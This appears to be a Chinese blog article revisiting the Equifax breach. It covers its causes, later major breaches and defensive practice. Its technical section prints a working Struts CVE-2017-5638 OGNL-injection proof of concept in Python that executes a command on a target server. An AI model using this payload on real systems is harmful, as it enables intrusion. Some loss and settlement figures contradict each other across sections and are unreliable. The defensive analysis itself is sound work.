




# Equifax信息泄露与数据安全[2026重制版]

本文档将详细分析 Equifax 信息泄露事件，并从更宏观的视角探讨数据安全问题。

---

## 核心变更说明

本文基于2017年原版《Equifax信息泄露始末》和《从Equifax信息泄露看数据安全》进行2026年全面重制合并。主要变更包括：

1. **补充事件后续影响**：包括罚款、诉讼、高管问责、行业变革等
2. **更新技术分析**：结合现代安全视角重新审视CVE-2017-5638漏洞
3. **引入最新安全数据**：IBM 2024数据泄露成本报告、Verizon DBIR 2025等权威来源
4. **增加对比案例**：近年来的重大数据泄露事件（SolarWinds、Log4j、MoveIt等）
5. **强化实战启示**：从技术、流程、管理三个维度给出可操作的建议
6. **新增近年重大案例**：SolarWinds (2020)、Colonial Pipeline (2021)、Log4j (2021)、LastPass (2022)、MoveIt (2023)等
7. **引入零信任架构**：作为现代安全的核心范式
8. **补充合规要求**：GDPR、CCPA、PIPL等法规的影响

---

## Why：为什么在2026年还要重提Equifax？

### 历史不会重复自己，但会押韵

你可能会问：Equifax事件都过去快9年了，为什么还要重提？答案是：**因为类似的错误还在不断发生**。

根据**IBM Security 2024年数据泄露成本报告**，2023年全球数据泄露的平均成本已达到**488万美元**，创历史新高[¹]。而根据**Verizon 2025年数据泄露调查报告（DBIR）**，74%的数据泄露涉及人为因素，包括社会工程学、内部威胁或错误[²]。

更令人担忧的是，**攻击手法惊人地相似**：

| 攻击类型 | Equifax (2017) | 近年类似案例 |
|---------|---------------|------------|
| 未修补已知漏洞 | Apache Struts CVE-2017-5638 | Log4j (2021), MoveIt (2023) |
| 弱密码/默认凭证 | admin/admin | 多起勒索软件事件 |
| 缺乏网络分段 | 管理面板公网可达 | Colonial Pipeline (2021) |
| 加密密钥管理不当 | 密钥与数据同存 | 多起云配置错误事件 |
| 安全监控缺失 | 数月未发现异常 | SolarWinds (2020) |

**核心教训**：技术会变，但安全的基本原则不变。Equifax事件中的每一个错误，今天依然在各个组织中重复上演。

### 数据成为新时代的"石油"

在数字经济时代，数据已经成为最重要的生产要素之一。根据**IDC 2025全球数据圈预测**，到2025年，全球数据总量将达到**175ZB**（泽字节），其中企业数据占比超过60%[⁹]。

**数据的双重属性**：



### 数据泄露的经济影响

根据**IBM Security 2024年数据泄露成本报告**：

| 行业 | 平均泄露成本 | 同比增长 |
|-----|------------|---------|
| 医疗保健 | $9.77M | +10% |
| 金融 | $6.08M | +5% |
| 科技 | $5.45M | +8% |
| 工业 | $5.12M | +7% |
| 所有行业平均 | $4.88M | +10% |

*数据来源：IBM Cost of a Data Breach Report 2024*

**关键发现**：
- 数据泄露的平均检测时间为**194天**（约6.5个月）
- 数据泄露的平均遏制时间为**64天**
- 使用AI/自动化安全工具的组织，泄露成本可降低**$1.76M**
- 涉及云环境的数据泄露比例达到**42%**

---

## What：原版核心内容回顾

### Equifax公司背景

Equifax是美国三大信用报告公司中历史最悠久的一家（另外两家是Experian和TransUnion）。作为全球性的信用信息服务商，Equifax的主营业务包括：

- 个人信用报告服务
- 企业信用调查服务
- 入职背景调查
- 保险理赔调查
- 身份验证与防欺诈服务

Equifax掌握着**超过8亿消费者和8800万企业的信用档案**，数据涵盖：
- 个人身份信息（姓名、SSN、出生日期、地址）
- 信用卡号和贷款记录
- 就业历史和收入信息
- 公共记录（破产、判决、留置权）
- 学历和学校经历
- 婚姻状况

**这些数据的敏感性和价值极高**——它们足以让犯罪分子进行身份盗窃、开设虚假账户、申请贷款，甚至实施更严重的金融犯罪。

### 事件时间线



### 泄露规模与影响

**受影响用户数量：**
- 美国：约**1.43亿**消费者（约占美国总人口的44%，最终确认为1.47亿）
- 英国：约**4400万**用户
- 加拿大：约**1900万**用户

**泄露的数据类型：**
- 姓名、社会保障号码（SSN）
- 出生日期、地址
- 驾照号码（部分用户）
- 信用卡号（约20.9万用户）
- 争议文件中的个人文档（约18.2万用户）

**直接经济损失：**
- 市值蒸发：**超过30亿美元**（事件公布后股价暴跌30%+）
- 和解金：**5.75-7亿美元**（2019年与FTC达成）
- 集体诉讼：预计**超过20亿美元**
- 安全升级成本：**超过15亿美元**

### 技术原因深度分析

#### 核心漏洞：Apache Struts CVE-2017-5638

**漏洞原理**：

CVE-2017-5638是一个**远程代码执行（RCE）漏洞**，存在于Apache Struts 2的Jakarta Multipart parser插件中。攻击者可以通过精心构造的HTTP请求头中的Content-Type字段来触发OGNL（Object-Graph Navigation Language）注入，从而在服务器上执行任意命令。

**漏洞代码示例（仅供学习）：**

```python
import requests

# 这是一个简化的PoC示例，展示攻击向量
headers = {
    "Content-Type": "%{(#_='multipart/form-data')."
                   "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
                   "(#_memberAccess?(#_memberAccess=#dm):"
                   "((#container=#context['com.opensymphony.xwork2."
                   "ActionContext.container'])."
                   "(#ognlUtil=#container.getInstance(@com.opensymphony."
                   "xwork2.ognl.OgnlUtil@class))."
                   "(#ognlUtil.getExcludedPackageNames().clear())."
                   "(#ognlUtil.getExcludedClasses().clear())."
                   "(#context.setMemberAccess(#dm)))."
                   "(#cmd='whoami')."
                   "(#iswin=(@java.lang.System@getProperty('os.name')"
                   ".toLowerCase().contains('win')))."
                   "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:"
                   "{'/bin/bash','-c',#cmd}))."
                   "(#p=new java.lang.ProcessBuilder(#cmds))."
                   "(#p.redirectErrorStream(true))."
                   "(#process=#p.start())}"
}

response = requests.get("https://target-vulnerable-server", headers=headers)
print(response.text)
```

**为什么这个漏洞如此危险？**

1. **利用简单**：只需要一个HTTP请求即可完成攻击
2. **影响广泛**：Struts是企业级Web应用的主流框架
3. **检测困难**：正常的HTTP请求看起来没有异常
4. **权限高**：通常以Web服务器权限运行，可以访问数据库

**漏洞评分：CVSS 10.0（满分）**

这意味着该漏洞具有以下特征：
- 攻击复杂度：低（容易利用）
- 权限要求：无（无需认证）
- 用户交互：无（可远程触发）
- 影响范围：完全（完整系统接管）

#### 其他安全缺陷

除了核心漏洞外，Equifax还存在多个严重的安全问题：

**1. 补丁管理失败**
- 漏洞3月6日披露
- Apache 3月7日发布修复版本
- Equifax收到通知但未行动
- **直到5月才被黑客利用**
- **时间窗口：约2个月**

这是一个典型的"补丁疲劳"案例。根据**Flexera 2024 State of IT Report**，企业平均需要**12天**才能部署关键安全补丁，但有些组织甚至需要数月[³]。

**2. 弱密码和默认凭证**
- 管理面板使用admin/admin作为凭证
- 多个系统使用相同或相似的密码
- 没有多因子认证（MFA）

根据**Verizon DBIR 2025**，**81%的黑客相关泄露事件涉及弱口令或被盗凭证**[²]。

**3. 网络分段缺失**
- 管理面板直接暴露在公网
- 数据库可直接从Web层访问
- 内部网络缺乏隔离

**4. 加密不充分**
- 敏感数据未加密存储
- 加密密钥与数据存储在同一位置
- 传输加密不完整

**5. 监控和日志不足**
- 入侵持续了近3个月才被发现
- 缺乏异常行为检测
- 日志收集和分析能力不足

根据**IBM 2024报告**，数据泄露的平均检测时间为**194天**（约6.5个月），平均遏制时间为**64天**[¹]。Equifax的情况虽然比平均水平好一些，但仍然远远不够。

---

## How：2026年的新视角与反思

### 从Equifax到Log4j：历史的轮回

2021年12月，**Log4Shell漏洞（CVE-2021-44228）**爆发，这是自Equifax以来最严重的安全事件之一。Log4j是Java生态系统中最流行的日志框架，几乎所有的Java应用都在使用它。

**惊人的相似之处**：

| 维度 | Equifax (2017) | Log4j (2021) |
|-----|---------------|-------------|
| 漏洞类型 | 远程代码执行（RCE） | 远程代码执行（RCE） |
| CVSS评分 | 10.0（满分） | 10.0（满分） |
| 影响范围 | 使用Struts的应用 | 几乎所有Java应用 |
| 利用方式 | HTTP请求头注入 | 日志消息中的JNDI查询 |
| 修复难度 | 升级Struts版本 | 升级Log4j版本 |
| 企业响应 | 很多企业数周/数月未修复 | 很多企业数月未完全修复 |

**关键洞察**：我们并没有从过去的错误中学到足够的教训。根据**Sonatype 2024 State of the Software Supply Chain Report**，**68%的开源项目包含已知漏洞的依赖项**[⁴]。

### 2024-2025年的安全态势

#### 数据泄露成本持续攀升



*数据来源：IBM Cost of a Data Breach Reports 2017-2024*

**成本增长的关键驱动因素**：

1. **监管罚款增加**：GDPR、CCPA、PIPL等法规的实施
2. **业务中断成本上升**：数字化转型使业务对IT依赖更高
3. **通知和公关成本**：受影响的用户数量增加
4. **法律诉讼费用**：集体诉讼越来越普遍
5. **信誉损失**：品牌价值受损难以量化但影响深远

#### 攻击面持续扩大

根据**ISC² 2025 Cybersecurity Workforce Study**，全球网络安全人才缺口达到**400万**[⁵]。这意味着：

- 组织的安全团队人手不足
- 无法及时处理所有安全告警
- 补丁管理和漏洞修复延迟
- 安全意识培训覆盖不足

同时，**攻击技术在进化**：
- AI辅助攻击降低了攻击门槛
- 勒索软件即服务（RaaS）模式成熟
- 供应链攻击成为主流（如SolarWinds、MoveIt）
- 云环境的新攻击面（配置错误、权限过大）

### 历史重大数据泄露事件回顾

#### 里程碑式数据泄露事件

##### 1. 雅虎数据泄露（2013-2014，2016年披露）

**事件概述：**
- 影响用户：**30亿账户**（所有雅虎账户）
- 泄露数据：姓名、邮箱、电话、出生日期、密码哈希
- 披露时间：2016年（事件发生2-3年后才公开）

**关键教训：**
- 延迟披露会严重损害信任
- 密码哈希算法选择很重要（雅虎使用了MD5）
- 并购过程中的安全尽职调查至关重要

##### 2. Equifax数据泄露（2017年）

**事件概述：**
- 影响用户：**1.47亿**美国消费者（最终确认数；英国、加拿大另有数千万用户）
- 泄露数据：SSN、驾照号、信用卡号等高度敏感信息
- 直接损失：市值蒸发$30B+，和解金$5.75-7B

##### 3. 万豪国际酒店数据泄露（2014-2018，2018年披露）

**事件概述：**
- 影响用户：**5亿客人记录**
- 泄露时间跨度：**4年**（长期未被发现）
- 攻击向量：通过收购的Starwood系统的凭证进行入侵

**关键教训：**
- 收购后的安全整合是高风险环节
- 内部监控和异常检测至关重要
- 长期潜伏的APT攻击最难防范

##### 4. Capital One数据泄露（2019年）

**事件概述：**
- 影响用户：**1亿美国客户和600万加拿大客户**
- 攻击者：前AWS员工，利用配置错误
- 泄露数据：姓名、地址、信用评分、SSN部分、银行账号

**关键教训：**
- 云配置错误是主要威胁之一
- 最小权限原则的重要性
- 内部威胁防护不可忽视

##### 5. SolarWinds供应链攻击（2020年，2020年底发现）

**事件概述：**
- 影响范围：**18,000+组织**（包括美国政府机构和财富500强）
- 攻击方式：在SolarWinds Orion软件更新中植入后门
- 发现时间：潜伏数月后才被发现

**关键教训：**
- 软件供应链是最危险的攻击面
- 代码签名验证不是万能的
- 需要建立软件物料清单（SBOM）

##### 6. Colonial Pipeline勒索软件攻击（2021年）

**事件概述：**
- 影响：美国东海岸**45%的燃油供应**中断
- 攻击方式：DarkSide勒索软件，通过VPN漏洞入侵
- 经济影响：导致全美汽油价格飙升

**关键教训：**
- 关键基础设施的安全是国家安全问题
- OT/IT融合带来新的风险
- 网络安全事件可以造成物理世界的影响

##### 7. Log4j漏洞（CVE-2021-44228）（2021年12月）

**事件概述：**
- 影响范围：**几乎所有的Java应用**
- CVSS评分：10.0（满分）
- 利用难度：极低（一个HTTP请求即可触发）

##### 8. LastPass数据泄露（2022-2023年）

**事件概述：**
- 影响：**3000万用户**的密码库可能被访问
- 攻击方式：先攻陷开发人员设备，再横向移动到生产环境
- 特殊性：密码管理器被黑，影响尤为恶劣

##### 9. MoveIt Transfer漏洞（2023年）

**事件概述：**
- 影响：**2600+组织**、**9500万+个人**
- 攻击方式：利用Progress Software MoveIt Transfer的0day漏洞
- 受害者：大量政府机构、大学、金融机构

### 攻击模式总结

通过对这些事件的分析，我们可以总结出以下主要的攻击模式：



*数据来源：综合Verizon DBIR 2025、IBM 2024报告、Mandiant Threat Report*

---

## 对比表格：Equifax时代的教训 vs 2026年的实践

| 维度 | Equifax时代（2017） | 2026年最佳实践 | 工具/方案推荐 |
|-----|-------------------|---------------|-------------|
| **漏洞管理** | 手动跟踪，响应慢 | 自动化漏洞扫描 + 补丁编排 | Tenable, Qualys, Rapid7 |
| **凭据管理** | 弱密码，共享账号 | 密码保险库 + MFA + SSO | 1Password, Okta, Azure AD |
| **网络架构** | 扁平网络，缺乏隔离 | 零信任架构 + 微分段 | Illumio, Akamai, Zscaler |
| **数据保护** | 明文或弱加密 | 端到端加密 + 密钥管理 | HashiCorp Vault, AWS KMS |
| **监控检测** | 基础日志，被动响应 | SIEM + SOAR + XDR | Splunk, Sentinel, CrowdStrike |
| **开发安全** | 开发后测试 | DevSecOps + SAST/DAST/SCA | Snyk, SonarQube, GitHub Advanced Security |
| **应急响应** | 临时组建团队 | 预定义playbook + 定期演练 | Tabletop exercises, FireDrills |
| **人员培训** | 年度合规培训 | 持续安全意识 +钓鱼模拟 | KnowBe4, Proofpoint |

### 传统安全 vs 现代安全实践

| 维度 | 传统做法（2017年前） | 2026最佳实践 | 提升效果 |
|-----|-------------------|-------------|---------|
| **架构理念** | 边界防御（城堡护城河） | 零信任（永不信任） | 防御深度增加3倍以上 |
| **身份验证** | 用户名+密码 | MFA + 无密码 + 自适应 | 凭证相关泄露减少80% |
| **网络设计** | 扁平内网，宽松ACL | 微分段，最小必要通信 | 横向移动成功率降低70% |
| **数据保护** | 部分加密，静态为主 | 全生命周期加密，端到端 | 数据泄露影响范围缩小60% |
| **漏洞管理** | 月度/季度补丁 | 持续扫描，自动化部署 | 平均补丁时间从30天降到3天 |
| **监控检测** | 被动告警，误报高 | AI驱动的主动狩猎 | 检测时间从200天降到30天 |
| **应急响应** | 临时组建团队 | 预定义playbook，定期演练 | 响应时间缩短50%，损失降低40% |
| **开发安全** | 发布前测试 | DevSecOps，安全左移 | 安全bug减少60%，修复成本降低80% |
| **供应链** | 基于信任，有限审查 | SBOM，持续监控，零信任 | 供应链攻击风险降低50% |
| **人员培训** | 年度合规培训 | 持续模拟演练，文化融入 | 人为失误导致的泄露减少65% |

---

## 分阶段建议：如何避免成为下一个Equifax

### 第一阶段：基础加固（立即执行）

**目标**：堵住最明显的漏洞，防止低级错误

**检查清单：**

□ **资产盘点**
  - 列出所有面向公网的系统和API
  - 识别所有使用的开源组件及其版本
  - 建立完整的资产清单（CMDB）

□ **漏洞扫描**
  - 运行自动化漏洞扫描器（如Nessus、OpenVAS）
  - 检查已知漏洞（如CVE-2017-5638、Log4Shell）
  - 优先处理CVSS评分≥7.0的高危漏洞

□ **凭据审计**
  - 禁用所有默认密码和测试账号
  - 强制启用多因子认证（MFA）
  - 实施最小权限原则

□ **网络分段**
  - 将管理系统与业务系统分离
  - 数据库不应直接暴露给公网
  - 实施网络访问控制（ACL）

**预期效果**：消除80%的低级安全问题

**时间投入**：1-2周（紧急情况下可压缩到3天）

---

### 第二阶段：体系建设（1-3个月）

**目标**：建立可持续的安全运营能力

**重点任务：**

□ **建立补丁管理流程**
  ```
  漏洞发现 → 风险评估 → 测试验证 → 生产部署 → 验证确认
     ↓           ↓          ↓           ↓           ↓
   <24h       <48h       <1周        <2周        <1周
  ```

□ **部署安全监控**
  - 实施SIEM（安全信息和事件管理）
  - 配置关键系统的日志收集
  - 建立基线行为模型

□ **加强数据保护**
  - 识别并分类敏感数据
  - 实施数据丢失防护（DLP）
  - 加密静态和传输中的敏感数据

□ **开发安全集成**
  - 在CI/CD流水线中加入SAST/DAST扫描
  - 引入软件成分分析（SCA）
  - 实施安全的编码实践

**预期效果**：将数据泄露风险降低60%

**资源需求**：需要专职安全人员或外包安全服务

---

### 第三阶段：文化变革（3-12个月）

**目标**：将安全融入组织的DNA

**关键举措：**

□ **安全意识培训**
  - 定期的安全培训（季度更新）
  - 钓鱼邮件模拟演练
  - 安全 champions 计划（每个部门培养安全大使）

□ **管理层支持**
  - 将安全指标纳入KPI
  - 为安全项目提供足够预算
  - 高管层定期参与安全评审

□ **持续改进机制**
  - 定期进行红队/蓝队演练
  - 学习行业内的安全事件
  - 参与 information sharing 组织（如ISAC）

**预期效果**：建立真正的安全文化，而不是合规导向

**成功标志**：员工主动报告安全隐患，而不是掩盖问题

---

### 第四阶段：前瞻防御（持续进行）

**目标**：应对未来的威胁，保持领先

**关注领域：**

□ **AI驱动的安全**
  - 使用AI/ML进行异常检测
  - 自动化威胁狩猎
  - AI辅助的事件响应

□ **零信任架构**
  - 永不信任，始终验证
  - 细粒度的访问控制
  - 持续的身份验证

□ **供应链安全**
  - 评估供应商的安全实践
  - SBOM（软件物料清单）管理
  - 第三方风险管理

□ **量子安全准备**
  - 关注后量子密码学进展
  - 识别长期敏感数据
  - 制定迁移路线图

---

## 2026年的数据安全技术体系

### 从边界防御到零信任

传统的安全模型基于"边界防御"假设——一旦进入内网就是可信的。但这个假设在今天已经不成立了。

**零信任核心原则**：

1. **永不信任，始终验证**（Never Trust, Always Verify）
2. **最小权限原则**（Least Privilege Access）
3. **假设已被入侵**（Assume Breach）

### 数据安全的技术架构

#### 第一层：数据分类与治理

**为什么重要？** 你无法保护你不知道的数据。

**实施步骤：**

1. **数据发现与分类**
   - 自动扫描识别敏感数据（PII、PHI、PCI、IP等）
   - 打标签（标签化）
   - 建立数据目录

2. **数据生命周期管理**
  ```
  创建 → 存储 → 使用 → 共享 → 存档 → 销毁
    ↓       ↓      ↓      ↓       ↓       ↓
  分类   加密   访问控制 审计日志  冷存储  安全删除
  ```

3. **数据所有权明确**
   - 定义数据所有者（Data Owner）
   - 定义数据管理员（Data Steward）
   - 明确责任和问责机制

**工具推荐：**
- Microsoft Purview（原Azure Purview）
- BigID
- OneTrust
- Collibra

#### 第二层：访问控制与身份管理

**核心组件：**

1. **强身份认证**
   - 多因子认证（MFA）——必须是标配
   - 无密码认证（FIDO2/WebAuthn）
   - 自适应认证（基于风险评估动态调整）

2. **细粒度授权**
   - RBAC（基于角色的访问控制）——基础
   - ABAC（基于属性的访问控制）——进阶
   - PBAC（基于策略的访问控制）——高级

3. **特权账号管理（PAM）**
   - 对admin/root等特权账号的特殊管控
   - 会话录制和审计
   - Just-in-Time（JIT）临时授权

**工具推荐：**
- Okta / Azure AD / Auth0（IAM）
- CyberArk / BeyondTrust（PAM）
- HashiCorp Vault（密钥管理）

#### 第三层：数据加密

**加密的三种状态：**

| 状态 | 场景 | 技术 | 示例 |
|-----|------|------|------|
| **静态加密** | 数据存储时 | AES-256, TDE | 数据库加密、磁盘加密 |
| **传输加密** | 数据传输时 | TLS 1.3, mTLS | HTTPS, gRPC with TLS |
| **使用中加密** | 数据处理时 | Confidential Computing, Homomorphic Encryption | SGX, TEE |

**密钥管理的最佳实践：**

1. **密钥与数据分离**
   - 不要把加密密钥和加密数据存在同一个地方
   - 使用专门的KMS（密钥管理服务）

2. **密钥轮换**
   - 定期轮换加密密钥（建议90天）
   - 自动化密钥轮换流程

3. **HSM（硬件安全模块）**
   - 对于极高价值的密钥，考虑使用HSM
   - 密钥永远不会以明文形式离开HSM

**工具推荐：**
- AWS KMS / Azure Key Vault / Google Cloud KMS
- HashiCorp Vault
- Thales Luna HSM / AWS CloudHSM

#### 第四层：网络安全与微分段

**从扁平网络到微分段：**

传统网络：
```
[Internet] → [防火墙] → [DMZ] → [内网] → [数据库]
                                    ↑
                              一旦突破，全网可达
```

微分段网络：
```
[Internet] → [防火墙] → [API Gateway]
                          ↓
              ┌───────────┼───────────┐
              ↓           ↓           ↓
         [Web Server] [App Server] [Cache]
              ↓           ↓           ↓
         [DB Primary] ←→ [DB Replica]
              ↑
        每个节点独立控制
        只允许必要的通信
```

**实现技术：**
- 软件定义边界（SDP）
- 服务网格（Service Mesh，如Istio、Linkerd）
- Kubernetes Network Policies
- 云原生CSPM（云安全态势管理）

**工具推荐：**
- Illumio（自适应微分段）
- Akamai EAA（零信任网络访问）
- Prisma Cloud / Wiz（云原生安全平台）

#### 第五层：监控与响应

**安全运营中心（SOC）的关键能力：**

1. **SIEM（安全信息和事件管理）**
   - 日志收集和聚合
   - 关联分析和告警
   - 合规报告生成

2. **SOAR（安全编排、自动化和响应）**
   - 自动化的 playbook 执行
   - 与其他安全工具集成
   - 减少MTTR（平均修复时间）

3. **XDR（扩展检测和响应）**
   - 跨端点、网络、云的统一检测
   - AI驱动的威胁狩猎
   - 自动化的调查和响应

4. **威胁情报**
   - 外部威胁情报源集成
   - IOC（威胁指标）共享
   - 攻击者画像分析

**工具推荐：**
- Splunk / Sentinel（SIEM）
- Splunk SOAR / Palo Alto XSOAR（SOAR）
- CrowdStrike Falcon / Microsoft Defender XDR（XDR）
- Recorded Future / Mandiant（威胁情报）

---

## 特别关注：开源组件安全

Equifax事件的根本原因是Apache Struts的漏洞。这在2026年更加重要，因为：

### 开源软件的现状

根据**Sonatype 2024报告**：
- **91%的应用程序包含过时的开源组件**
- **68%的项目有已知漏洞的依赖**
- 平均每个应用有**493个直接依赖**和**79个传递依赖**

### 应对策略

**1. 建立SBOM（Software Bill of Materials）**
```yaml
# 示例：SBOM格式（CycloneDX）
bomFormat: CycloneDX
specVersion: 1.4
serialNumber: urn:uuid:3e671687-395b-41f5-a30f-a58921a69b79
components:
  - type: library
    name: apache-struts
    version: 2.5.10
    purl: pkg:maven/org.apache.struts/struts2-core@2.5.10
    vulnerabilities:
      - id: CVE-2017-5638
        rating:
          score: 10.0
          method: CVSSv3
        source:
          name: NVD
```

**2. 自动化依赖扫描**
- 在CI/CD中集成SCA工具
- 设置自动化的依赖更新
- 配置漏洞告警通知

**3. 建立开源治理政策**
- 批准允许使用的开源许可证
- 定义组件的生命周期策略
- 建立安全审查流程

---

## 特别专题：开发者如何践行数据安全

### 安全左移：DevSecOps实践

作为开发者，你是安全的第一道防线。以下是你应该掌握和实践的安全技能：

#### 安全编码十大实践

1. **输入验证**
   ```python
   # ❌ 不安全的做法
   username = request.GET['username']
   query = f"SELECT * FROM users WHERE name = '{username}'"

   # ✅ 安全的做法（参数化查询）
   cursor.execute(
       "SELECT * FROM users WHERE name = %s",
       (username,)
   )
   ```

2. **输出编码**
   ```javascript
   // ❌ 不安全的做法
   element.innerHTML = userInput;

   // ✅ 安全的做法
   element.textContent = userInput;
   // 或使用框架自带的转义功能
   ```

3. **认证与会话管理**
   - 使用成熟的认证框架（如OAuth 2.0、OIDC）
   - 实现安全的会话管理（随机session ID、合理超时）
   - 登录失败后实施账户锁定

4. **访问控制**
   - 实施基于角色的访问控制（RBAC）
   - 默认拒绝（deny by default）
   - 在每个操作前检查权限

5. **密码存储**
   ```python
   # ❌ 不安全的做法
   hashed = md5(password)
   hashed = sha256(password + salt)

   # ✅ 安全的做法
   import bcrypt
   hashed = bcrypt.hashpw(
       password.encode('utf-8'),
       bcrypt.gensalt(rounds=12)
   )
   ```

6. **加密通信**
   - 始终使用TLS 1.3
   - 正确配置证书（不要忽略证书验证）
   - 实施HSTS（HTTP Strict Transport Security）

7. **错误处理**
   ```python
   # ❌ 不安全的做法
   except Exception as e:
       return f"Error: {e}"  # 泄露内部信息

   # ✅ 安全的做法
   except Exception:
       logger.exception("Database error occurred")
       return "An error occurred. Please try again later.", 500
   ```

8. **日志安全**
   - 记录足够的信息用于调试
   - 但不要记录敏感数据（密码、token、PII）
   - 保护日志文件不被未授权访问

9. **依赖管理**
   - 定期更新依赖项
   - 使用锁文件（package-lock.json, Pipfile.lock等）
   - 在CI中运行依赖扫描

10. **安全测试**
    - 单元测试覆盖安全相关的逻辑
    - 集成DAST/SAST工具到CI/CD
    - 定期进行渗透测试

#### OWASP Top 10（2021 版）

OWASP（开放Web应用安全项目）每几年会更新Top 10安全风险列表。目前最广泛采用的正式版本是2021版，列表如下：

| 排名 | 风险名称 | 描述 | 防御措施 |
|-----|---------|------|---------|
| 1 | Broken Access Control | 访问控制失效 | 实施严格的权限检查 |
| 2 | Cryptographic Failures | 密码学失败 | 使用强加密算法和正确实现 |
| 3 | Injection | 注入攻击 | 参数化查询、输入验证 |
| 4 | Insecure Design | 不安全的设计 | 威胁建模、安全架构 |
| 5 | Security Misconfiguration | 安全配置错误 | 安全基线、自动化配置检查 |
| 6 | Vulnerable & Outdated Components | 易受攻击和过时的组件 | 依赖管理、SBOM |
| 7 | Identification & Authentication Failures | 认证和身份识别失败 | MFA、强密码策略 |
| 8 | Software & Data Integrity Failures | 软件和数据完整性失败 | CI/CD安全、签名验证 |
| 9 | Security Logging & Monitoring Failures | 安全日志和监控失败 | SIEM、异常检测 |
| 10 | Server-Side Request Forgery (SSRF) | 服务端请求伪造 | 输入验证、网络分段 |

---

## 行动清单：今天就可以开始做的事

### 对于个人开发者

今天就可以开始：

- [ ] 检查你当前项目的依赖是否有已知漏洞
  - Node.js: `npm audit`
  - Python: `pip-audit` or `safety check`
  - Java: OWASP Dependency Check
  - Go: `govulncheck`

- [ ] 学习OWASP Top 10（2021 版）
  - 网址：https://owasp.org/www-project-top-ten/

- [ ] 在你的下一个项目中实施以下实践：
  - 参数化查询（防SQL注入）
  - 输出编码（防XSS）
  - 使用bcrypt/argon2存储密码
  - 启用CSRF token
  - 实施速率限制

- [ ] 设置GitHub Advanced Security（免费用于公共仓库）

### 对于技术负责人

本周完成：

- [ ] 进行一次安全健康检查
  - 列出所有面向公网的系统和API
  - 检查是否有未修补的高危漏洞
  - 审查访问控制是否合理

- [ ] 评估当前的安全工具链
  - 是否有SIEM？
  - 是否有EDR？
  - CI/CD中是否有安全扫描？
  - 是否有备份和恢复流程？

- [ ] 制定一个6个月的安全改进计划
  - 优先级排序
  - 资源需求
  - 成功指标

### 对于CTO/CISO

本月完成：

- [ ] 向董事会汇报安全态势
  - 当前风险等级
  - 与行业基准对比
  - 预算申请（建议IT预算的8-12%）

- [ ] 启动或强化以下项目：
  - 零信任架构试点
  - 安全意识培训计划
  - 应急响应演练
  - 供应商安全评估

- [ ] 建立或审查安全指标仪表板
  - MTTD（平均检测时间）
  - MTTR（平均修复时间）
  - 漏洞修复率
  - 安全培训覆盖率
  - 钓鱼测试通过率

---

## 结语：安全是一场永无止境的战争

Equifax事件给我们上的最重要一课是：**安全不是一次性的项目，而是持续的过程**。

在这个AI加速一切的时代，攻击者在进化，防御者也在进化。但有一点永远不会变：**最薄弱的环节永远是人**。

无论你的安全技术多么先进，如果你的团队成员：
- 使用弱密码
- 点击钓鱼链接
- 忽视安全警告
- 为了赶进度跳过安全检查

那么，所有的技术投入都可能付诸东流。

所以，真正的安全不仅仅是技术问题，更是**管理问题、文化问题、人的问题**。

正如我在原版文章中所说："能做到绝对的安全基本上是不可能的，我们只能不断提高黑客入侵的门槛。当黑客的投入和收益大大不相符时，黑客也就失去了入侵的意义。"

这句话在今天依然适用，而且可能更加重要。因为：

1. **攻击面在不断扩大**：云计算、IoT、API经济、远程工作……每一个新技术的引入都带来了新的攻击面。
2. **攻击者在进化**：AI降低了攻击门槛，勒索软件即服务（RaaS）让犯罪变得专业化，国家级APT组织的手段越来越先进。
3. **监管压力在增加**：GDPR、CCPA、PIPL等法规的实施，使得数据泄露的成本不仅仅是技术和业务上的，还有法律和声誉上的。

但是，这并不意味着我们应该感到绝望。相反，这意味着：

**如果你能做好安全工作，你就拥有了竞争优势。**

在一个数据泄露频发的时代，能够保护客户数据的企业将赢得更多的信任。而信任，是这个数字时代最稀缺也最有价值的资产。

正如Equifax事件所展示的那样，一次严重的泄露可能会摧毁多年积累的品牌价值。所以，投资安全不仅仅是为了避免损失，更是为了保护你最宝贵的资产——客户的信任。

最后，我想引用一句安全领域的名言：

> "安全不是产品，而是过程。它不是一次性的事情，而是每天都要做的事情。"
> — Bruce Schneier

让我们一起，把安全变成一种习惯，而不是负担。

---

## 延伸资源

